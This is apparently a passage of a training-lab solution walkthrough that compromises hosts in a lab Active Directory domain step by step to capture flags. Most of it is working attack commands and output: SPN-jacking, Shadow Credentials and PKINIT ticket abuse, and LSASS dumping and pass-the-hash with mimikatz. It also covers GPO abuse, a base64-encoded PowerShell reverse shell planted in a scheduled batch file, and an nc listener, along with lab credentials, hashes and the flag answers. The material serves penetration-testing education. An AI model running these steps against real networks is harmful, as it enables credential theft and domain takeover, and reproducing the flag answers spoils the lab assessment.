wget -q https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz; gunzip chisel_1.7.7_windows_amd64.gz; mv chisel_1.7.7_windows_amd64 chisel.exe
```

Subsequently, they will start a chisel server on their workstation:

```shell
chisel server --reverse -p 8080
```



In a new terminal tab, students will connect to the target via RDP with the credentials `taino:Adrian01`:

```shell
xfreerdp /v:STMIP /u:taino /p:Adrian01 /dynamic-resolution /drive:.,student
```

Subsequently, they will open `PowerShell`, copy the `chisel.exe`, and initiate a dynamic port-forwarding:

```powershell
net use
copy \\TSCLIENT\student\chisel.exe .
.\chisel.exe client 10.10.15.82:8080 R:socks
```



Right after, they will proceed to enumerate the delegation in the domain using `taino`'s credentials with `findDelegation.py`:

```shell
proxychains findDelegation.py -target-domain inlanefreight.local -dc-ip 172.19.99.10 inlanefreight.local/taino:Adrian01
```



With the obtained information, they will proceed to clone and install the `dacledit` branch in a virtual environment from the following [fork](https://github.com/ShutdownRepo/impacket) of Impacket:

```shell
git clone https://github.com/ShutdownRepo/impacket -b dacledit; cd impacket; python3.11 -m venv .dacledit; source .dacledit/bin/activate
python3.11 -m pip install .
```


Right after, students will query the ACL over the `TAINOTEST$` computer account:

```shell
proxychains -q python3.11 examples/dacledit.py inlanefreight.local/taino:Adrian01 -principal taino -target 'tainotest$'
```



Subsequently, students will repeat the step to enumerate the ACL over the `SDE01$` and `db2000$` computer accounts:

```shell
proxychains -q python3 examples/dacledit.py inlanefreight.local/taino:Adrian01 -principal taino -target 'sde01$'
proxychains -q python3 examples/dacledit.py inlanefreight.local/taino:Adrian01 -principal taino -target 'db2000$'
```



In a new terminal tab, students will clone the `krbrelayx` repository:

```shell
cd ..;git clone https://github.com/dirkjanm/krbrelayx; cd krbrelayx
```

Students will perform an `SPN-jacking` attack, starting with clearing the SPN on the `db2000$` computer account:

```shell
proxychains python3 addspn.py 172.19.99.10 -u 'inlanefreight.local\taino' -p Adrian01 -t 'DB2000$' --clear
```



Subsequently, they will re-add the SPN to the `SDE01$` computer account:

```shell
proxychains python3 addspn.py 172.19.99.10 -u 'inlanefreight.local\taino' -p Adrian01 -t 'SDE01$' --spn 'MSSQLSvc/db2000'
```



Students will perform `Shadow Credentials` attack based on the `GenericAll` right that the user `taino` has over `TAINOTEST$` using [pywhisker](https://github.com/ShutdownRepo/pywhisker). They will clone the repository, navigate to it, and perform the attack:

```shell
cd ..; git clone https://github.com/ShutdownRepo/pywhisker; cd pywhisker
```

Subsequently, they will proceed to add the shadow credential on the `TAINOTEST$` computer account while taking note of the PFX file name and the randomly generated password in the output of `pywhisker`:

```shell
proxychains python3 pywhisker.py --dc-ip 172.19.99.10 -d inlanefreight.local -u taino -p Adrian01 --target 'TAINOTEST$' --action add 
```



Right after, students will proceed to clone the [PKINITtools](https://github.com/dirkjanm/PKINITtools) repository and utilize `gettgtpkinit.py` to request a ticket-granting ticket using the previously generated PFX file and password from the output of `pywhisker`:

```shell
cd ..; git clone https://github.com/dirkjanm/PKINITtools; cd PKINITtools
proxychains python3 gettgtpkinit.py -cert-pfx ../pywhisker/pywhisker/aeD2Scz4.pfx -pfx-pass RucmcZuRRbFSbNzSeE3b inlanefreight.local/tainotest tainotest.ccache
```



Subsequently, students will use `getnthash.py` to recover the NT hash of the computer account while specifying the key obtained from the previous command:

```shell
KRB5CCNAME=tainotest.ccache proxychains python3 getnthash.py -key 42fd8c62fc387f9831c0b284948474e53819cd0dc14c8dfbee8a787d1882b593 inlanefreight.local/tainotest
```



Right after, students will request a service ticket using `getST.py` while specifying the SPN, the `Administrator` user to impersonate, the hash of the `TAINOTEST$` computer account, and the alternative service of `cifs/sde01.inlanefreight.local`:

```shell
proxychains -q impacket-getST -spn 'MSSQLSvc/db2000' -impersonate Administrator 'inlanefreight.local/tainotest$' -hashes :3f421a50fb86b83a8b1d5cd654147156 -dc-ip 172.19.99.10 -altservice "cifs/sde01.inlanefreight.local"
```



Students will proceed to use the obtained ticket of the Administrator user with `psexec` to pass the ticket and grab the flag located at `C:\Users\Administrator\Desktop\`:

```shell
KRB5CCNAME=Administrator@cifs_sde01.inlanefreight.local@INLANEFREIGHT.LOCAL.ccache proxychains -q impacket-psexec Administrator@sde01.inlanefreight.local -k -no-pass
type C:\Users\Administrator\Desktop\flag.txt
```



Answer: `SPN_Nice$_Tr81ck`

# Skills Assessment

## Question 2

### "Compromise RD09 and read the flag located at C:\Users\Administrator\Desktop\flag.txt"

Using the previously established session using `psexec` as the Administrator user, students will proceed to add the user `taino` to the `Local Administrators` group:

Code: shell

```shell
net localgroup Administrators taino /add
```



Students will have to download `PowerView.ps1`, `Get-GPOEnumeration.ps1` and `mimikatz.exe` to be further transferred to the target machine:

```shell
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
wget https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/Get-GPOEnumeration.ps1
locate mimikatz.exe
cp /usr/share/mimikatz/x64/mimikatz.exe .
```


Subsequently, using the previously established RDP session, students will open `PowerShell` as Administrator. They will have to submit the credentials of the user `taino` once prompted, change their current working directory to their home directory, and transfer both `PowerView.ps1`, `Get-GPOEnumeration.ps1` and `mimikatz.exe`:

```powershell
cd ~
copy \\TSCLIENT\student\PowerView.ps1 .
copy \\TSCLIENT\student\Get-GPOEnumeration.ps1 .
copy \\TSCLIENT\student\mimikatz.exe .
```

Right after, they will proceed to import `PowerView`, and `Get-GPOEnumeration` and enumerate the Group Policy Object create rights in the domain while taking note of the user that has the ability to links GPOs:

```powershell
Import-Module .\PowerView.ps1
Import-Module .\Get-GPOEnumeration.ps1
Get-GPOEnumeration -CreateGPO
Get-GPOEnumeration -LinkGPOs
```



Students will proceed to dump the LSASS process to obtain the NTLM hash of the user `angel`:

```powershell
.\mimikatz.exe "sekurlsa::logonpasswords /user:angel" exit
```



Subsequently, they will utilize the NTLM hash of the user to perform Pass-the-Hash attack, spawning a new `PowerShell` window:

```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:angel /domain:inlanefreight.local /rc4:948575451312938596ac1f7f7d33877e /run:powershell.exe"
```



Within the newly spawned window, students will change their current working directory to `C:\Users\taino`, import `PowerView`, and create a new Group Policy Object named `AngelGPO` in the domain:

```powershell
cd C:\Users\taino
Import-Module .\PowerView.ps1
New-GPO -Name "AngelGPO" -Verbose
```



Students will download SharpGPOAbuse from GitHub:

```shell
wget -q https://github.com/byronkg/SharpGPOAbuse/raw/main/SharpGPOAbuse-master/SharpGPOAbuse.exe
```

Subsequently, they will upload the `SharpGPOAbuse.exe` binary onto the target:

```powershell
copy \\TSCLIENT\student\SharpGPOAbuse.exe .
```

Students will proceed to utilize the tool to add the user `angel` as a `Local Administrator` using the previously generated GPO:

```powershell
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount angel --GPOName "AngelGPO"
```



Students will query the `scriptPath` property of the user `manuel` using `Get-DomainUser` cmdlet:

```powershell
Get-DomainUser manuel -Properties scriptPath
```



Enumerating further the permissions over the `sample.vbs` VBScript file located in `NETLOGON` of the domain controller, students will come to know that authenticated users have read and execute permissions over it:

```powershell
ls $env:LOGONSERVER\NETLOGON
icacls $env:LOGONSERVER\NETLOGON\sample.vbs
```



Upon reviewing the contents of the file, students will find out that it utilizes `WScript` used as an automation mechanism that will periodically run a batch script named `clearcache.bat` which is located at the `\\SDE01\Shared` directory:

```powershell
type $env:LOGONSERVER\NETLOGON\sample.vbs
```



Subsequently, students will proceed to enumerate the permissions of that file located at `\\SDE01\Shared\clearcache.bat` or the equivalent path `C:\Shared\inetpub\Shared\clearcache.bat`, where they will come to know that every user on the system (machine) has read and execute, while `NT AUTHORITY\SYSTEM` has full access:

```powershell
icacls \\SDE01\Shared\clearcache.bat
```



They will create a base64 encoded reverse shell payload:

```shell
python3 -c 'import base64; print(base64.b64encode((r"""$LHOST = "PWNIP"; $LPORT = PWNPO; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()""").encode("utf-16-le")).decode())'
```



Students will open `clearcache.bat` using `Notepad` located at `C:\inetpub\Shared`:

```powershell
notepad C:\inetpub\Shared\clearcache.bat
```



They will add a line that will initiate the `PowerShell` reverse shell and save the file:



Students need to start `netcat` listening on port `9001` on their workstations and link the previously created GPO:

```shell
nc -nvlp 9001
Get-GPO -Name AngelGPO | New-GPLink -Target "OU=Countries,DC=inlanefreight,DC=local" -Verbose
```


Students need to return to the `PowerShell` session running as the user `angel` and use `Enter-PSSession` to establish session on `RD09` from where they can grab the flag located at `C:\Users\Administrator\Desktop\`:

```powershell
Enter-PSSession RD09
type C:\Users\Administrator\Desktop\flag.txt
```



Answer: `C0untr13s_OU`

## Question 3

### "Compromise DC04 and read the flag located at C:\Users\Administrator\Desktop\flag.txt"

Using the previously established RDP session on the host `SDE01`, students will enumerate the users in the domain using `Get-ADUser`, finding out two additional users `restituyo` and `tangui`:

Code: powershell

```powershell
Get-ADUser -Filter *
```

Students will proceed to query the ACL of the user `restituyo` over `tangui` using `Get-DomainObjectAcl`, where they will come to know that the user `restituyo` has `WriteProperty` over `tangui`:

```powershell
$sid = (Get-DomainUser -Identity restituyo).objectsid
Get-DomainObjectAcl -Identity tangui | ?{$_.SecurityIdentifier -eq $sid}
```


Students will connect to `172.19.99.15` (`RD09`) using the credentials `angel:Ilovebaseball01` (obtained previously), while utilizing the previously established dynamic port-forwarding:

```shell
proxychains -q xfreerdp /v:172.19.99.15 /u:angel /p:'Ilovebaseball01' /dynamic-resolution /drive:.,student
```

Students will open `PowerShell` as Administrator, upload `mimikatz.exe`, and dump the LSASS process to obtain the password hash of the user `restituyo`:

```powershell
cd ~
copy \\TSCLIENT\student\mimikatz.exe .
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords /user:restituyo" exit
```

```powershell-session
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> cd ~
PS C:\Users\angel> copy \\TSCLIENT\student\mimikatz.exe .
PS C:\Users\angel> .\mimikatz.exe "sekurlsa::logonpasswords" exit


  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # sekurlsa::logonpasswords

<SNIP>

Authentication Id : 0 ; 304693 (00000000:0004a635)
Session           : Batch from 0
User Name         : restituyo
Domain            : INLANEFREIGHT
Logon Server      : DC04
Logon Time        : 5/22/2024 5:53:58 AM
SID               : S-1-5-21-1203991204-2482992733-3322511772-1105
        msv :
         [00000003] Primary
         * Username : restituyo
         * Domain   : INLANEFREIGHT
         * NTLM     : 98b590665f1025577b5b9bdc081927bb
         * SHA1     : ff09f1b9e8edb6177b60b88b1f1ec41a617eaa06
         * DPAPI    : bd0a5202b44aab43a65a409416d43420
        tspkg :
        wdigest :
         * Username : restituyo
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : restituyo
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :
<SNIP>
```

Students will perform shadow credential attack using `certipy` to obtain the NT hash for the user `tangui`:

Code: shell

```shell
proxychains -q certipy shadow auto -username restituyo@inlanefreight.local -hashes :98b590665f1025577b5b9bdc081927bb -account 'tangui' -dc-ip 172.19.99.10 -target dc04.inlanefreight.local -scheme ldap
```



Students will utilize the RDP session on `SDE01` where they will perform Pass-the-Hash attack using the newly obtained hash of the user `tangui`:

```powershell
.\mimikatz.exe "sekurlsa::pth /user:tangui /domain:inlanefreight.local /rc4:bb73d5056f1f2084e5b5bbe18261f6b6 /run:powershell.exe"
```



In the newly spawned window, students will navigate to `C:\Users\taino`, import `PowerView.ps1`, and link the previously created GPO named `AngelGPO`:

```powershell
cd C:\Users\taino
Import-Module .\PowerView.ps1
Get-GPO -Name AngelGPO | New-GPLink -Target "Default-First-Site-Name"
```



Subsequently, students will establish an `netexec` session using the credentials of the user `angel` to connect to `172.19.99.10` (`DC04`):

```shell
proxychains nxc smb 172.19.99.10 -u angel -p Ilovebaseball01 -x 'type C:\Users\Administrator\Desktop\flag.txt'
```



Answer: `D3f4ult_S1t3_Ab8s#$`
